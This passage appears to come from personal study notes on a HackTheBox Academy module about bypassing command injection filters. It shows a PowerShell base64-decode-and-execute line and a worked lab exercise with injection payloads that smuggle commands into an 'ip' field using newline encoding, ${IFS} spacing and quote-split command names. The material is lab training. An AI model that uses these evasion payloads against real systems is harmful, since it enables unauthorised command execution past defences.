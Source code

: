 Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

>[!Example]
>The Academy exercise for this section:
>- Find the output of the following command using one of the techniques you learned in this section: `find /usr/share/ | grep root | grep mysql | tail -n 1`
>- See the steps above
>
>```shell
>ip=127.0.0.1%0a${IFS}t'a'il${IFS}-n${IFS}1<<<$(g'r'ep${IFS}mysql<<<$(g'r'ep${IFS}root<<<$(f'i'nd${IFS}${PWD:0:1}usr${PWD:0:1}share${PWD:0:1})))
>```

*I crafted this payload with patience and testing*:

```shell
# Step 1: testing find /usr/share
ip=127.0.0.1%0a${IFS}f'i'nd${IFS}${PWD:0:1}usr${PWD:0:1}share${PWD:0:1}

# Step 2: testing grep root
ip=127.0.0.1%0a${IFS}g'r'ep${IFS}root<<<$(f'i'nd${IFS}${PWD:0:1}usr${PWD:0:1}share${PWD:0:1})

# Step 3: testing grep mysql
ip=127.0.0.1%0a${IFS}g'r'ep${IFS}mysql<<<$(g'r'ep${IFS}root<<<$(f'i'nd${IFS}${PWD:0:1}usr${PWD:0:1}share${PWD:0:1}))

# Step 4: testing tail
ip=127.0.0.1%0a${IFS}t'a'il${IFS}-n${IFS}1<<<$(g'r'ep${IFS}mysql<<<$(g'r'ep${IFS}root<<<$(f'i'nd${IFS}${PWD:0:1}usr${PWD:0:1}share${PWD:0:1})))
```

# Evasion Tools

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for `Linux` and another for `Windows.`
